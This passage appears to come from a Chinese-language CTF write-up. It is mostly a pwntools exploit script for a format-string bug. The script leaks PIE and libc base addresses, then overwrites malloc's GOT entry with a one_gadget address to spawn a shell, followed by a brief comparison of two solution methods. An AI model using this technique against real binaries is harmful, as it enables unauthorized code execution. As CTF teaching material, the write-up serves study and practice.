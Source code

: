 ```python
    return payload



main_addr=elf.symbols["main"]
puts_addr=libc.symbols["puts"]
malloc_addr=libc.symbols["malloc"]
malloc_got=elf.got["malloc"]


payload=b"%45$p"
io.sendline(payload)
io.recvuntil(b"your input:\n")
pie_bias=int(encode(io.recvline()),16)-(main_addr+43)
hexlog(pie_bias)

payload=b"%41$p"
io.sendline(payload)
io.recvuntil(b"your input:\n")
libcbase=int(encode(io.recvline()),16)-(puts_addr+362)
hexlog(libcbase)

real_malloc_addr=malloc_addr+libcbase
one_gadget=0x45226+libcbase  #0x4527a  #0xf03a4 #0xf1247
hexlog(one_gadget)
hexlog(real_malloc_addr )

real_malloc_got=malloc_got+pie_bias

payload=fmt_str(10,3,real_malloc_got,one_gadget,64)
print((payload))
io.sendline(payload)
io.interactive()
```
第一种方法更考验对格式化字符串基本知识的掌握，但是没有办法直接拿到shell，只能读取flag；第二种方法则依赖于出题人是否给libc文件，如果不给，则需要下很多libc一个个尝试,但是能拿到shell，做的事情不止可以读取flag。






